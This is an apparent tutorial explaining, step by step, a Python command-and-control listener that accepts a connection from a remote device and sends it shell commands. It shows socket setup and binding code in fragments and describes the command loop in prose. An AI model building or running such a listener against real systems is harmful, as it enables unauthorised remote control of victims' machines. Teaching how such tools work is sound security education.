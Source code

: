 # Example of Creating a C2 Using Python
Let's create a Python script that sets up a listener to communicate with a remote device. The listener waits for a connection, then allows the user to send commands to the remote device. Here's a breakdown of the code:

1. **Importing Required Module**:
   ```python
   import socket
   ```
   The script imports the `socket` module, which provides a way for Python to interact with network sockets.

2. **Identifier Constant**:
   ```python
   IDENTIFIER = "<END_OF_COMMAND_RESULT>"
   ```
   This string serves as an identifier to determine the end of a command result.

3. **Main Script Execution**:
   The script uses an `if __name__ == "__main__":` block to ensure that the code inside it only runs if the script is executed directly (and not imported as a module).

4. **Setting Up the Socket**:
   ```python
   hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   ```
   A new TCP socket (`SOCK_STREAM`) is created for IPv4 communication (`AF_INET`).

5. **Socket Address Configuration**:
   ```python
   IP = "192.168.74.128"
   Port = 8008
   socket_address = (IP, Port)
   ```
   The IP address and port for the listener are defined.

6. **Binding and Listening**:
   ```python
   hacker_socket.bind(socket_address)
   hacker_socket.listen(5)
   print("listening for incoming connection requests")
   ```
   The socket is bound to the specified IP address and port, and it starts listening for incoming connections with a backlog of 5.

7. **Accepting Connections**:
   ```python
   hacker_socket, client_address = hacker_socket.accept()
   print("connection established with ", client_address)
   ```
   The script waits for a connection. When one is established, it prints the client's address.

8. **Command Loop**:
   The main loop of the script lets the user input commands to send to the connected device:
   - If the command is "stop", the socket closes and the script ends.
   - If the command is empty, the loop continues without sending anything.
   - If the command starts with "cd", it sends the command and moves to the next iteration.
   - For other commands, it sends the command and waits for a response. The response is received in chunks and the loop continues until the `IDENTIFIER` is found.

9. **Exception Handling**:
   If any exception occurs during command execution or communication, the script prints "Exception occurred" and closes the socket.
